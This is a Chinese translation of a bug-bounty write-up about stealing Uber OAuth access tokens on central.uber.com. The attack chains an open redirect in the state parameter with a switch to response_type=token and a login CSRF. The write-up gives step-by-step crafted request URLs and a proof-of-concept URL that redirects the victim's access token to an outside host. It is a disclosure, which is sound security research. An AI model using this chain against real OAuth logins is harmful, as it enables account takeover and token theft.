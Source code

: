 > 原文链接: https://www.anquanke.com//post/id/86349 


# 【技术分享】我是如何破解价值8000美金的Uber漏洞


                                阅读量   
                                **100250**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：ngailong.com
                                <br>原文地址：[http://ngailong.com/uber-login-csrf-open-redirect-account-takeover/](http://ngailong.com/uber-login-csrf-open-redirect-account-takeover/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01524775ac31a9a3ff.jpg)](https://p3.ssl.qhimg.com/t01524775ac31a9a3ff.jpg)



译者：[小meet](http://bobao.360.cn/member/contribute?uid=166264293)

预估稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



读了两篇文章tweet 和 report之后，我决定分享一个在Uber挖到的很特别的洞–盗取登录授权。

这个漏洞在central.uber.com，使用oauth协议登录，但是参数使用不正确导致攻击者构造参数导致跳转和登录CSRF,然后获取跳转后URL中的登录令牌。

先来分析一个central.uber.com的登录流程，几个月前当用户登录时，请求是这样的:



```
1、https://central.uber.com/login?state=/somewhere
```

```
2、https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https://central.uber.com/oauth2-callback&amp;state=/somewhere
```

```
3、https://central.uber.com/oauth2-callback?state=／&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd
```

```
4、https://central.uber.com/somewhere
```

为了更好的理解这个漏洞，你需要多读几遍去熟悉这个流程。我的第一次尝试是把state的参数值从/somewhere变成了//google.com，去测试潜在的跳转漏洞，然后这个流程变成了下面的样子



```
1、https://central.uber.com/login?state=//google.com
```

```
2、https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https://central.uber.com/oauth2-callback&amp;state=//google.com
```

```
3、https://central.uber.com/oauth2-callback?state=//google.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd
```

```
4、//google.com
```

显而易见这是跳转漏洞的，但是uber不收这个洞了，所以要深挖一下好好利用。

由于请求中我们用的是code,而不是token,所以即使利用跳转我们也没法在登录中获取任何东西。所以我们把code替换成token，看看会出现什么情况：



```
1、https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https://central.uber.com/oauth2-callback&amp;state=//google.com/
2、https://central.uber.com/oauth2-callback?state=//google.com#access_token=xxxxx/
3、No redirect here
```

因为https://central.uber.com/oauth2-callback 没有返回可用的code,所以第二步没有跳转，但是如果没有跳转的话我们就没法获取token，所以需要一个解决方法，给oauth2-callback后面添加一个可用的code参数



**登录处CSRF**



参数state用于跳转，我们可以将自己可用的oauth code 添加到 oauth2-callback后面，然后发给被攻击者，然后被攻击者就会带着token被重定向访问攻击者的网站。

 

**POC**



https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3dattacker_valid_oauth_code&amp;state=%2F%2fhackerone.com



**POC登录流程**



1 https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d`{`attacker_valid_oauth_code`}`&amp;state=%2F%2fhackerone.com

2 https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&amp;code=`{`attacker_valid_oauth_code`}`#access_token=`{`victim_access_token`}`

3、//hackerone.com#accesstoken=`{`victim_access_token`}`

 

**局限**



这个漏洞需要用户已经获取了login.uber.com的的会话验证。由于central.uber.com是一个官方的oauth客户端，所以每个用户在默认情况下会接受central.uber.com的任何请求。

漏洞赏金$8000

 
